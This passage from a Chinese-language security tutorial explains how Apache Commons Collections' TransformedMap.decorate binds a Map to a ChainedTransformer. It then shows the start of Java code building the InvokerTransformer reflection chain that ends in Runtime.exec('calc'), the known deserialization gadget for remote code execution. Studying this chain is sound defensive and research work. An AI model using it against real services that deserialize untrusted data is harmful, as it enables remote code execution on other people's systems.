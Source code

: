 关于Map的一些补充知识
------------

Map是java中的接口，Map.Entry是Map的一个内部接口

- keySet()方法返回Map中key值的集合
- entrySet()返回一个Set集合，集合类型为Map.Entry（键值对）
- Map.Entry是Map声明的一个内部接口，Map.Entry表示一个实体即键值对（key-value对）
- getKey()，getValue方法可以修改集合中的元素

绑定Map和ChainedTransformer
------------------------

**为什么要绑定Map和ChainedTransformer?**

之前我们把构造好的Transformer数组封装成了一个ChainedTransformer，TransformerMap类的decorate方法可以绑定map和ChainedTransformer，只要在map中添加数据就会自动调用构造好的ChainedTransformer，执行payload，这样降低了触发的难度

**目前的执行过程**

1. 创建一个Map和一个构造好反射链的ChainedTransformer
2. 调用TransformedMap类的decorate方法创建一个实例，绑定创建好的Map和ChainedTransformer
3. 利用setValue()函数修改TransformedMap中的键值
4. 触发ChainedTransformer中的Transform反射链

`org.apache.commons.collections.map.TransformedMap#decorate`

[![RDxTx0.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9d633d7d492f53099a4b9e21d9b70133d3c8962e.png)](https://imgtu.com/i/RDxTx0)

**TransformedMap类的功能？**

Map类是保存键值对的数据结构，common collections中实现了一个TransformedMap类，这个类可以在键值对的key或者value被修改时自动调用我们设置的transform方法进行修饰和变换。decorate方法可以创建一个TransformedMap的实例。

**decorate方法的功能？**

创建一个TransformedMap实例，绑定Map和转换方法  
它的第一个参数为待转化的Map对象，第二个参数为Map对象内的key要经过的转化方法（可为单个方法，也可为链，也可为空），第三个参数为Map对象内的value要经过的转化方法。

代码实例

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.util.HashMap;
import java.util.Map;

public class Commons_collections_Test {

    public static void main(String[] args) throws Exception {
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                //根据transform的执行规则，InvokeTransformer类构造函数的第一个参数为要执行的，第二个参数为一个Class[]，包含了要获取方法的参数类型。第三个参数为invoke的第二个参数
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[]{}}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[]{}}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

```